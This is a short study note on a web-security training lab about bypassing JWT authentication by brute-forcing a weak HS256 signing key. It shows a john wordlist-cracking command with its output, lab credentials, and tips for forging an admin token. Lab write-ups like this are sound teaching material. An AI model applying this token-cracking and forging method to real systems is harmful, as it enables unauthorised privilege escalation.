 # Lab: JWT authentication bypass via weak signing key

Description : It uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced  [wordlist of common secrets.](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)

End goal : privilage esclation (access the admin panel)

creds : `wiener:peter`

Notes :

"alg": "HS256" -> weak algorithm could be brute forced

while dealing with hashing and encryption stuff , take care of the newlines while u pasting the original encrypted or hashed value

for example :

echo -n "secrect_value" -> this prints the value without adding new line -> which is good

echo "secrect_value" -> this prints the value and adding new line -> which is bad , and u might take hours to figure out whats wrong

look at `jwt.txt` , `jwt2.txt` for live example (Note the number of lines)

cracking jwt secret key:

`john jwt.txt --wordlist=secret_key_wordlist.txt`

> Using default input encoding: UTF-8
>
> Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
>
> Will run 8 OpenMP threads
>
> Press 'q' or Ctrl-C to abort, almost any other key for status
>
> secret1          (?)
>
> 1g 0:00:00:00 DONE (2024-09-21 21:11) 50.00g/s 819200p/s 819200c/s 819200C/s ..6959156
>
> Use the "--show" option to display all of the cracked passwords reliably
>
> Session completed.

after aquiring the secret key for jwt , dont forget to encode it using base64 before using it to sign ur jwt
